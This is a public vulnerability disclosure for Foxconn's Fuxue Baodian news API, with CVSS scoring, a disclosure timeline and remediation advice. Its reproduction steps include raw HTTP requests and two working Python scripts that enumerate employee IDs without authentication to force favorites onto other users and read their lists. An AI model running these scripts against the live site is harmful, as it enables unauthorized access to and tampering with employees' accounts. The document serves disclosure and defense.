

## Summary

The vulnerability affects the Fuxue Baodian website's API endpoints for adding news to favorites (`/v2/news/{id}/favor`) and querying favorite news (`/v2/news/favorites`). It stems from improper authentication and authorization, allowing unauthenticated attackers to manipulate the `access_token` parameter with arbitrary employee IDs. This enables unauthorized addition of news to other users' favorites and retrieval of their favorite news lists without verification of the requester's identity. No session cookies are required, and requests succeed even when cookies are removed.


## Affected Product
- **Vendor:** Foxconn
- **Product:** Fuxue Baodian
- **Version:** Current as of 2025-11-20
- **Component:** News Module
- **Domain:** iedu.foxconn.com

**Note:** the vulnerability was confirmed in the live web application as of 2025-11-20. Since the application does not expose a version string, a specific version number could not be determined.


## Impact

* **Unauthorized Data Access:** An attacker can systematically scrape the favorite news lists of all employees by iterating through employee IDs.
* **Unauthorized Action:** An attacker can force any user to "favorite" specific content without their knowledge or consent.
* **Mass Exploitation:** Since the `access_token` follows a predictable sequential pattern (e.g., `F + numbers`), the entire user base is susceptible to automated exploitation via simple scripts.


## CVSS v3.1 Score
**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N`

**Base Score:** **8.2 (High)**

- AV (Attack Vector): `Network` 
- AC (Attack Complexity): `Low`
- PR (Privileges Required): `None`
- UI (User Interaction): `None`
- S (Scope): `Unchanged`
- C (Confidentiality): `High`
- I (Integrity): `Low`
- A (Availability): `None`


## Reproduction Steps

### Add news to favorites

After logging into the Fuxue Baodian website, navigate to the news page (`https://iedu.foxconn.com/public/news/newsmain`), as shown in the following image:



Here, taking the article `https://iedu.foxconn.com/public/news/newsdetail?id=1q0lZdj0z8Q` as an example, click the "Add to Favorites" button at the end of the news to add the news to favorites. The API request and its response are as shown below:

```http
GET /v2/news/1q0lZdj0z8Q/favor?access_token=F1245363&_=1764209700765 HTTP/2
Host: iedu.foxconn.com
Cookie: deviceid=W4cd32305860b4836869c8bcd593c1c5a; zh_choose=t; fxbdLocal=zh; JSESSIONID=646E611BFEC83F5B9DDE3304A3D083A1
Sec-Ch-Ua: "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

```http
HTTP/2 200 OK
Content-Type: application/json
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self' data:; frame-ancestors 'self' *.foxconn.com *.fulearn.com *.yuanqq.net; form-action 'self'; base-uri 'self';
Expires: Sat, 17 Jan 2026 01:44:11 GMT
Cache-Control: max-age=0, no-cache, no-store
Pragma: no-cache
Date: Sat, 17 Jan 2026 01:44:11 GMT
Content-Length: 50
Strict-Transport-Security: max-age=31536000 ; includeSubDomains ; preload

{
  "source_id": "1q0lZdj0z8Q",
  "favorite_status": true
}
```

The vulnerability lies in:

* The backend does not verify the identity of the requester, i.e., the `Cookie` in the original request header can be deleted, and it can still be requested successfully without authentication.
* The value of the `access_token` parameter in the original request can be changed from `F1245363` to the victim's employee ID, and it can still be requested successfully without victim's acknowledgment.

Next, to reproduce the vulnerability exploitation process, use the following Python automation script to make employee IDs `F1245100–F1245199` favorite the specified news item (https://iedu.foxconn.com/public/news/newsdetail?id=1q0lZdj0z8Q) without including a Cookie. The script and its output are shown below:

```python
import requests

url = "https://iedu.foxconn.com/v2/news/1q0lZdj0z8Q/favor"

headers = {
    "Sec-Ch-Ua-Platform": '"macOS"',
    "X-Requested-With": "XMLHttpRequest",
    "Accept-Language": "en-US,en;q=0.9",
    "Accept": "*/*",
    "Sec-Ch-Ua": '"Not_A Brand";v="99", "Chromium";v="142"',
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Sec-Ch-Ua-Mobile": "?0",
    "Origin": "https://iedu.foxconn.com",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

for i in range(1245100, 1245199):
    access_token = f"F{i}"
    url = url + "?" + f"access_token={access_token}" + "&" + f"_=1764209700765"
    r = requests.get(url, headers=headers, timeout=5)
    if '"favorite_status":true' in r.text:
        print(f"Employee ID: {access_token}, successfully add the news to favorites: {r.text}")
```

```
......

Employee ID: F1245188, successfully add the news to favorites: {"source_id":"1q0lZdj0z8Q","favorite_status":true}
Employee ID: F1245190, successfully add the news to favorites: {"source_id":"1q0lZdj0z8Q","favorite_status":true}
Employee ID: F1245192, successfully add the news to favorites: {"source_id":"1q0lZdj0z8Q","favorite_status":true}
Employee ID: F1245194, successfully add the news to favorites: {"source_id":"1q0lZdj0z8Q","favorite_status":true}
Employee ID: F1245196, successfully add the news to favorites: {"source_id":"1q0lZdj0z8Q","favorite_status":true}
Employee ID: F1245198, successfully add the news to favorites: {"source_id":"1q0lZdj0z8Q","favorite_status":true}
```

### Query favorite news

Additionally, the API for querying favorite news by specifying an employee ID also has the same type of vulnerabilities:

* The backend does not verify the identity of the requester, i.e., the `Cookie` in the original request header can be deleted, and it can still be requested successfully without authentication.
* The value of the `access_token` parameter in the original request can be changed from `F1245363` to the victim's employee ID, and it can still be requested successfully without victim's acknowledgment.

Next, to reproduce the vulnerability exploitation process, change the value of `access_token` in the original request parameters from `F1245363` to `F1245100` (victim's employee ID), and delete the `Cookie` in the original request header, thus forming a new request as shown below, then send this request data to the web server in BurpSuite:

```http
GET /v2/news/favorites?access_token=F1245100&1764211576693 HTTP/2
Host: iedu.foxconn.com
Cookie: deviceid=W4cd32305860b4836869c8bcd593c1c5a; zh_choose=t; fxbdLocal=zh; JSESSIONID=646E611BFEC83F5B9DDE3304A3D083A1
Sec-Ch-Ua: "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

The server response results are as shown below, and it was found that the favorite data of the victim (`F1245100`) was successfully obtained:

```http
HTTP/2 200 OK
Content-Type: application/json
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self' data:; frame-ancestors 'self' *.foxconn.com *.fulearn.com *.yuanqq.net; form-action 'self'; base-uri 'self';
Expires: Sat, 17 Jan 2026 02:19:10 GMT
Cache-Control: max-age=0, no-cache, no-store
Pragma: no-cache
Date: Sat, 17 Jan 2026 02:19:10 GMT
Content-Length: 570
Strict-Transport-Security: max-age=31536000 ; includeSubDomains ; preload

{
  "data": [
    {
      "id": "1q0lZdj0z8Q",
      "headline": "大厂发布——Adobe：推出Graph项目，像导演一样指挥AI，搭积木式重塑创意工作流",
      "author": "互联网",
      "timestamp": "1764204305278",
      "description": "       Adobe宣布推出全新创意系统Project Graph，目标重塑AI时代的创作工作流。",
      "images": [],
      "companyid": 0,
      "news_url": "https://ieduapi.foxconn.com/news/?id=1q0lZdj0z8Q",
      "comment_count": null,
      "likes_count": null,
      "likes_status": null,
      "favorite_status": true,
      "page_view": null,
      "user_id": "F3213461"
    }
  ],
  "previous_cursor": null,
  "next_cursor": null
}
```

Next, to reproduce the vulnerability exploitation process, use the following Python automation script to query the favorite news of employee IDs `F1245100 to F1245199` without including a Cookie. The script and its output are shown below:

```python
import requests

url = "https://iedu.foxconn.com/v2/news/favorites"

headers = {
    "Sec-Ch-Ua-Platform": '"macOS"',
    "X-Requested-With": "XMLHttpRequest",
    "Accept-Language": "en-US,en;q=0.9",
    "Accept": "*/*",
    "Sec-Ch-Ua": '"Not_A Brand";v="99", "Chromium";v="142"',
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Sec-Ch-Ua-Mobile": "?0",
    "Origin": "https://iedu.foxconn.com",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

for i in range(1245100, 1245199):
    access_token = f"F{i}"
    url = url + "?" + f"access_token={access_token}" + "&" + f"1764211576693"
    r = requests.get(url, headers=headers, timeout=5)
    if '"favorite_status":true' in r.text:
        print(f"Employee ID: {access_token}, successfully query the favorite news: \n{r.text}\n")
```

```
......

Employee ID: F1245196, successfully query the favorite news: 
{"data":[{"id":"1q0lZdj0z8Q","headline":"大厂发布——Adobe：推出Graph项目，像导演一样指挥AI，搭积木式重塑创意工作流","author":"互联网","timestamp":"1764204305278","description":"       Adobe宣布推出全新创意系统Project Graph，目标重塑AI时代的创作工作流。","images":[],"companyid":0,"news_url":"https://ieduapi.foxconn.com/news/?id=1q0lZdj0z8Q","comment_count":null,"likes_count":null,"likes_status":null,"favorite_status":true,"page_view":null,"user_id":"F3213461"}],"previous_cursor":null,"next_cursor":null}

Employee ID: F1245197, successfully query the favorite news: 
{"data":[{"id":"1q0lZdj0z8Q","headline":"大厂发布——Adobe：推出Graph项目，像导演一样指挥AI，搭积木式重塑创意工作流","author":"互联网","timestamp":"1764204305278","description":"       Adobe宣布推出全新创意系统Project Graph，目标重塑AI时代的创作工作流。","images":[],"companyid":0,"news_url":"https://ieduapi.foxconn.com/news/?id=1q0lZdj0z8Q","comment_count":null,"likes_count":null,"likes_status":null,"favorite_status":true,"page_view":null,"user_id":"F3213461"}],"previous_cursor":null,"next_cursor":null}

Employee ID: F1245198, successfully query the favorite news: 
{"data":[{"id":"1q0lZdj0z8Q","headline":"大厂发布——Adobe：推出Graph项目，像导演一样指挥AI，搭积木式重塑创意工作流","author":"互联网","timestamp":"1764204305278","description":"       Adobe宣布推出全新创意系统Project Graph，目标重塑AI时代的创作工作流。","images":[],"companyid":0,"news_url":"https://ieduapi.foxconn.com/news/?id=1q0lZdj0z8Q","comment_count":null,"likes_count":null,"likes_status":null,"favorite_status":true,"page_view":null,"user_id":"F3213461"}],"previous_cursor":null,"next_cursor":null}
```


## Remediation

* **Enforce Strict Authentication:** Implement server-side verification to ensure that every request to `/v2/news/` contains a valid, non-expired session token or JWT in the headers.
* **Implement Authorization Checks:** Ensure the backend verifies that the `access_token` (Employee ID) provided in the request matches the identity of the user currently authenticated in the session. 
* **Use Non-Predictable Identifiers:** Instead of using sequential employee IDs in API parameters, use Universally Unique Identifiers (`UUIDs`) for resource mapping to prevent enumeration.


## Timeline
- **2025-11-20:** Vulnerability identified and initial proof-of-concept (PoC) verified.

- **2025-11-28:** Detailed vulnerability report submitted to the vendor for remediation. No acknowledgment or remediation confirmation received as of 2026-01-14.

- **2026-01-14:** Decision made to proceed with public disclosure following the expiration of a reasonable grace period.


## CWE References

* [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
* [CWE-285: Improper Authorization](https://cwe.mitre.org/data/definitions/285.html)
* [CWE-639: Instance Manipulation Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
